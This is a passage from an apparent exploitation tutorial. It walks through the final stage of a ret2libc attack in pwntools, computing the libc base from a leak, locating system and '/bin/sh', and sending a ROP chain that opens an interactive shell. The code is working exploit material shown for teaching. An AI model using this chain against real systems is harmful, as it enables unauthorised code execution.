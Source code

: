 Inside the `get_addr`function the **base address of libc** is going to be calculated:

```python
if libc != "":
    libc.address = leak - libc.symbols[func_name] #Save libc base
    log.info("libc base @ %s" % hex(libc.address))
```

Then, the address to the function `system` and the **address** to the string _"/bin/sh"_ are going to be **calculated** from the **base address** of **libc** and given the **libc library.**

```python
BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```

Finally, the /bin/sh execution exploit is going to be prepared sent:

```python
rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

p.clean()
p.sendline(rop2)

##### Interact with the shell #####
p.interactive() #Interact with the conenction
```

Let's explain this final ROP.  
The last ROP \(`rop1`\) ended calling again the main function, then we can **exploit again** the **overflow** \(that's why the `OFFSET` is here again\). Then, we want to call `POP_RDI` pointing to the **addres** of _"/bin/sh"_ \(`BINSH`\) and call **system** function \(`SYSTEM`\) because the address of _"/bin/sh"_ will be passed as a parameter.  
Finally, the **address of exit function** is **called** so the process **exists nicely** and any alert is generated.

**This way the exploit will execute a** _**/bin/sh**_ **shell.**

